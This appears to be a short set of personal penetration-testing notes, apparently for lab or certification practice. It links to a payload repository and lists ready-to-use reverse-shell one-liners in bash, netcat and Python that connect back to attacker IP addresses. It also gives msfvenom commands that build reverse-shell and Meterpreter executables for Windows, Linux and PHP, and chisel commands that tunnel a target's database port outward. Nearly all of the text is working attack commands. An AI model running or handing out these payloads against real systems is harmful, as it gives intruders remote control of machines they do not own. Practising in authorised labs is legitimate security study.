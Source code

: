 ##### windows - linux - specific languages shells


##### links
- [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

 ###### reverse shells
```bash
# bash-1
bash -i >& /dev/tcp/192.168.45.180/4444 0>&1
# bash-2
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.180 4444 >/tmp/f
# python-1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.2.6",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```
- msfvenom generate
```bash
# stageless reverse shells windows
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.129.32 LPORT=4444 -f exe > shell-x86.exe
# stageless reverse shells linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.180 LPORT=4444 -f elf > shell-x86.elf
# staged meterpreter windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.129.32 LPORT=4444 -f exe > shell-x86.exe
# php
msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=4444 -f raw > shell.php
```

- starting chisel
```bash
# start server on local
./chisel server --reverse -p 8000
# start client on target
./chisel client 10.10.14.7:8000 R:3306:127.0.0.1:3306
```